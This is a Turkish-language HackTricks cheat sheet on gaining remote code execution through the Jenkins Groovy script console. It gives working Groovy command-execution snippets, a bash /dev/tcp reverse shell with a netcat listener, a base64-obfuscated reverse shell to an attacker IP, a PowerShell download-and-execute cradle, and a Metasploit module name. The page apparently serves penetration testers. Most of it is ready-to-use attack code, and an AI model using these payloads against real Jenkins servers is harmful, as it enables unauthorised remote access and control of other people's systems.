 # Jenkins Groovy Script ile Uzaktan Kod Çalıştırma (RCE)

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmak için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Jenkins Groovy Script ile Uzaktan Kod Çalıştırma (RCE)

Bu, Jenkins'te yeni bir proje oluşturmaktan daha az gürültülüdür.

1. _path\_jenkins/script_ dizinine gidin.
2. Metin kutusuna betiği girin.
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
Aşağıdaki komutu kullanarak bir komutu çalıştırabilirsiniz: `cmd.exe /c dir`

**Linux** için ise şunu yapabilirsiniz: **`"ls /".execute().text`**

Metin içinde _alıntılar_ ve _tek tırnaklar_ kullanmanız gerekiyorsa, yükü çalıştırmak için _"""PAYLOAD"""_ (üçlü çift tırnak) kullanabilirsiniz.

**Başka bir kullanışlı groovy betiği** şudur (yerine \[KOMUT EKLEYİN]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Linux'ta ters kabuk

Bir ters kabuk, hedef bir sisteme erişim sağlamak için kullanılan bir saldırı tekniğidir. Bu teknik, hedef sisteme bir kabuk sunucusu bağlantısı oluşturarak saldırganın komutları çalıştırmasına olanak tanır.

Aşağıdaki adımları izleyerek Linux'ta bir ters kabuk oluşturabilirsiniz:

1. İlk olarak, saldırganın dinleyeceği bir IP adresi ve port belirleyin. Örneğin, IP adresi 192.168.1.100 ve port 4444 olarak varsayalım.

2. Ardından, hedef sisteme bir ters kabuk oluşturmak için bir komut çalıştırın. Aşağıdaki komutu kullanabilirsiniz:

```bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

Bu komut, hedef sisteme bir ters kabuk oluşturacak ve saldırganın komutları çalıştırmasına olanak tanıyacaktır.

3. Son olarak, saldırganın dinleme yapabilmesi için bir kabuk sunucusu başlatın. Bu işlem için çeşitli araçlar kullanılabilir, örneğin `netcat` veya `nc` komutu. Aşağıdaki komutu kullanarak `netcat` aracını kullanabilirsiniz:

```bash
nc -lvp 4444
```

Bu komut, saldırganın hedef sisteme bağlanmasını sağlayacak ve ters kabuk komutlarını almasına olanak tanıyacaktır.

Bu adımları takip ederek Linux'ta bir ters kabuk oluşturabilir ve hedef sisteme erişim sağlayabilirsiniz. Ancak, unutmayın ki bu tür saldırılar yasa dışıdır ve yalnızca yasal izinlerle gerçekleştirilmelidir.
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Windows'ta ters kabuk

Bir PS ters kabukla birlikte bir HTTP sunucusu hazırlayabilir ve Jeking'i kullanarak onu indirip çalıştırabilirsiniz:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

Bu işlemi [**bu betikle**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py) otomatikleştirebilirsiniz.

Ters kabuk almak için MSF'i kullanabilirsiniz:
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmaya kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek isterseniz** veya **HackTricks'i PDF olarak indirmek isterseniz** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
